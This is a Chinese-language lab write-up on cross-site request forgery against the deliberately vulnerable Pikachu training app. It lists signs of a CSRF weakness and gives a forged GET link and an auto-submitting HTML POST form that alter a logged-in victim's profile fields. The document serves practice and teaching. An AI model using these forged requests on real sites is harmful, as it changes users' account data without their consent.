 **如何确认目标站点是否有CSRF漏洞**
对目标站点增删改查的地方进行标记，并观察逻辑，判断请求是否可以伪造。
- 修改管理员账号时，不需要验证旧密码
- 修改敏感信息时，不需要token验证
- 确认凭证的有效期，退出关闭容器时，Cookie与Session短期仍然有效。

## CSRF_GET

**漏洞利用**

首先作为一个普通用户，修改个人信息，抓到的URL可任意修改如下，受害者点击该URL可修改成功
```http
http://10.16.102.140/pikachu/vul/csrf/csrfget/csrf_get_edit.php?sex=%E7%94%B7&phonenum=1232132131&add=%E5%8D%97%E9%80%9A&email=32321321321%40qq.com&submit=submit
```

GET请求修改个人信息，所有的参数都在URL中体现,这种利用方法比较容易。我们可以伪造这个链接，把对应参数内容修改成我们需要的值，让带有登录状态的用户访问就完成了我们的攻击。

![](./src/csrf1.png)
## CSRF_POST
与GET区别，这里是POST,只能在请求body提交，我们无法构造URL链接攻击。利用方法是自己做一个表单post.html

```html
<html>
<head>
<script>
window.onload = function() {
  document.getElementById("postsubmit").click();
}
</script>
</head>
<body>
<form method="post" action="http://(目标IP)/pikachu/vul/csrf/csrfpost/csrf_post_edit.php">
    <input id="sex" type="text" name="sex" value="girl" />
    <input id="phonenum" type="text" name="phonenum" value="12345678922" />
    <input id="add" type="text" name="add" value="hacker" />
    <input id="email" type="text" name="email" value="lucy@pikachu.com" />
    <input id="postsubmit" type="submit" name="submit" value="submit" />
</form>
</body>
</html>
```
